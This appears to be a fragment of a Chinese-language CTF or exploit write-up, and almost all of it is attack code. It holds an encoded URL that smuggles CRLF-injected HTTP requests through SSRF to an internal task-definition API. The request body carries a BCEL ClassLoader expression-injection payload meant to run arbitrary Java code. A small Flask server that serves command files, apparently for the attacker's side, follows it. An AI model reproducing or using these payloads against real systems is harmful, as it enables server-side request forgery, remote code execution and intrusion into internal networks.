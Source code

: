得到

```
http://0.0.0.0:3000/%2525C4%2525A0HTTP/1.1%2525C4%25258D%2525C4%25258AHost:127.0.0.1:3000%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258APOST%2525C4%2525A0/search?url=http://10.0.122.14:8080/api/metadata/taskdefs%2525C4%2525A0HTTP/1.1%2525C4%25258D%2525C4%25258AHost:127.0.0.1:3000%2525C4%25258D%2525C4%25258AContent-Type:application/json%2525C4%25258D%2525C4%25258AContent-Length:1507%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258A%25255B%2525C5%2525BB%2525C4%2525A2name%2525C4%2525A2:%2525C4%2525A2$%2525C5%2525BB%2525C4%2525A71%2525C4%2525A7.getClass().forName(%2525C4%2525A7com.sun.org.apache.bcel.internal.util.ClassLoader%2525C4%2525A7).newInstance().loadClass(%2525C4%2525A7$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$c2$40$U$3dS$K$85Z$ET$f0$ad$b8$S_$b4$5d$f9$8c$h$a3$x$7cD$8c$$$dcX$ea$EG$a14uP$fc$o$d7l$d4$b8$f0$D$fc$u$f5$O1b$a2$93$cc$99$b9$e7$9e9$f7$ce$cc$fb$c7$eb$h$80U$cc$99Hb$c8$c40F$92$c8$ab$b5$60$60$d4D$ic$G$c6$NL0$q$b6D$m$e46C$ac$b4p$ca$a0$ef$b4$$9C$a6$o$C$7e$d0n$d6xt$e2$d5$g$c4$a4$ab$d2$f3o$f6$bd$f0$3b$d6$9b$9e$I$Y$K$a5$f3$ca$b5w$e7$d9$N$_$a8$dbU$Z$89$a0$be$a9$8c$ccj$ab$j$f9$7cO$uqj$f7N4$caJg$n$F$d3$c0$a4$85$vL3$y$df$d7$b9$y$5eI$Zn$d8$f6$9a$5b$5eu$ca$ae$e3$96$d7$dd$N$d7q$i$b7$b8rX$b4e3$b4$p$e1$df$3cX$98$c1$y$c3p$bf$den$c7$e7$a1$U$ad$c0B$R$s5$a5$ea0d$fb$8a$c3$da5$f7$rC$aeO$j$b7$D$v$9a$d4$95I$b5$7f$82$7ci$a1$f2G$b3I$96$bc$c3$7d$86$f9$d2$3f$d7$fcE$jE$z$9f$df$de$d2$81LHI$d9$7b$ad$93$c8$f39$e6$60$d0$_$a8$a1$81$a9$eb$T$OPtA$b1Fka$f1$Z$ec$F$daP$ec$J$fa$d9$p$92$95$a5$t$q$ba$a4$d2$91F$96$3eK$83E$ba$J$q$Ic$c4$c6$89OQ$c6$40$8e$9c$f3$e4$98$a6L$W$da$t$B3$88$t$88$eb$a4$ZD$e6$bb$da8M$a6f$b7$b7Q$86$89$k$91$s$cc$f6$9a$cb$7d$B$T$c2pg8$C$A$A%2525C4%2525A7).newInstance().class%2525C5%2525BD%2525C4%2525A2,%2525C4%2525A2ownerEmail%2525C4%2525A2:%2525C4%2525A2test@example.org%2525C4%2525A2,%2525C4%2525A2retryCount%2525C4%2525A2:%2525C4%2525A23%2525C4%2525A2,%2525C4%2525A2timeoutSeconds%2525C4%2525A2:%2525C4%2525A21200%2525C4%2525A2,%2525C4%2525A2inputKeys%2525C4%2525A2:%25255B%2525C4%2525A2sourceRequestId%2525C4%2525A2,%2525C4%2525A2qcElementType%2525C4%2525A2%25255D,%2525C4%2525A2outputKeys%2525C4%2525A2:%25255B%2525C4%2525A2state%2525C4%2525A2,%2525C4%2525A2skipped%2525C4%2525A2,%2525C4%2525A2result%2525C4%2525A2%25255D,%2525C4%2525A2timeoutPolicy%2525C4%2525A2:%2525C4%2525A2TIME_OUT_WF%2525C4%2525A2,%2525C4%2525A2retryLogic%2525C4%2525A2:%2525C4%2525A2FIXED%2525C4%2525A2,%2525C4%2525A2retryDelaySeconds%2525C4%2525A2:%2525C4%2525A2600%2525C4%2525A2,%2525C4%2525A2responseTimeoutSeconds%2525C4%2525A2:%2525C4%2525A23600%2525C4%2525A2,%2525C4%2525A2concurrentExecLimit%2525C4%2525A2:%2525C4%2525A2100%2525C4%2525A2,%2525C4%2525A2rateLimitFrequencyInSeconds%2525C4%2525A2:%2525C4%2525A260%2525C4%2525A2,%2525C4%2525A2rateLimitPerFrequency%2525C4%2525A2:%2525C4%2525A250%2525C4%2525A2,%2525C4%2525A2isolationgroupId%2525C4%2525A2:%2525C4%2525A2myIsolationGroupId%2525C4%2525A2%2525C5%2525BD%25255D%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258A%2525C4%25258D%2525C4%25258AGET%2525C4%2525A0/private
```

启服务

```python
import os
from flask import Flask,redirect
from flask import request


app = Flask(__name__)

@app.route('/')
def hello():
    return open("test1.txt").read()

@app.route('/command')
def hello1():
    return open("command1.txt").read()

if __name__ == '__main__':
    port = int(os.environ.get('PORT', 10001))
    app.run(host='0.0.0.0', port=port)
```
